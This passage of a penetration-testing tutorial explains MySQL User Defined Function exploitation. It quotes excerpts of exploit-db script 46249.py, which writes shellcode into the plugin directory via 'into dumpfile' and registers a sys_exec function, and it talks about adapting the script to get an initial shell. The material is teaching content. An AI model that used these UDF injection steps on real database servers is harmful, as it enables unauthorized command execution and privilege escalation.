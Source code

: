```
MySQL UDF Exploitation                | docs/english/44139-mysql-udf-exploitation.pdf
MySQL: Secure Web Apps - SQL Injectio | papers/english/12945-mysql-secure-web-apps---s
Novel contributions to the field - Ho | docs/english/40143-novel-contributions-to-the-
...
----------------------------------------------------------- --------------------------
```

When searching for MySQL vulnerabilities, we have to change our approach a bit. This time we are not looking for an exact version number that might be vulnerable to an exploit since MariaDB and MySQL use different version numbers. Instead, we are trying to see if we can identify a pattern in publicly disclosed exploits that may indicate a type of attack we could use.

We notice that the words "UDF" and "User Defined" show up often. Let's take a look at a more recent UDF exploit found in /usr/share/exploitdb/exploits/linux/local/46249.py.

```
1  # Exploit Title: MySQL User-Defined (Linux) x32 / x86_64 sys_exec function local privilege escalation exploit
2  # Date: 24/01/2019
3 ...
19  References:
20  https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html
21  https://www.exploit-db.com/exploits/1518
22  https://www.exploit-db.com/papers/44139/ - MySQL UDF Exploitation by Osanda Malith Jayathissa (@OsandaMalith)
```

The exploit begins by referencing other research into UDF exploitation including a paper written on the subject.

Reviewing this paper teaches us that a User Defined Function (UDF) is similar to a custom plugin for MySQL. It allows database administrators to create custom repeatable functions to accomplish specific objectives. Conveniently for us, UDFs are written in C or C++ and can run almost any code we want, including system commands.

Researchers have discovered how to use standard MySQL (and MariaDB) functionality to create these plugins in ways that can be used to exploit systems. This specific exploit discusses using UDFs as ways to escalate privileges on a host. However, we should be able to use the same principle to get an initial shell. Some modifications will be required but before we start changing anything, let's take a look at the code.

```
40  shellcode_x32 = "7f454c4601010100000000000000000...";
41  shellcode_x64 = "7f454c4602010100000000000000000...";
42
43  shellcode = shellcode_x32
44  if (platform.architecture()[0] == '64bit'):
45   shellcode = shellcode_x64
...
71  cmd='mysql -u root -p\'' + password + '\' -e "select @@plugin_dir \G"'
72  plugin_str = subprocess.check_output(cmd, shell=True)
73  plugin_dir = re.search('@plugin_dir: (\S*)', plugin_str)
74  res = bool(plugin_dir)
...
91  print "Trying to create a udf library...";
92  os.system('mysql -u root -p\'' + password + '\' -e "select binary 0x' + shellcode + ' into dumpfile \'%s\' \G"' % udf_outfile)
93  res = os.path.isfile(udf_outfile)
...
99  print "UDF library crated successfully: %s" % udf_outfile;
100  print "Trying to create sys_exec..."
101  os.system('mysql -u root -p\'' + password + '\' -e "create function sys_exec returns int soname \'%s\'\G"' % udf_filename)
102
103  print "Checking if sys_exec was crated..."
104  cmd='mysql -u root -p\'' + password + '\' -e "select * from mysql.func where name=\'sys_exec\' \G"';
```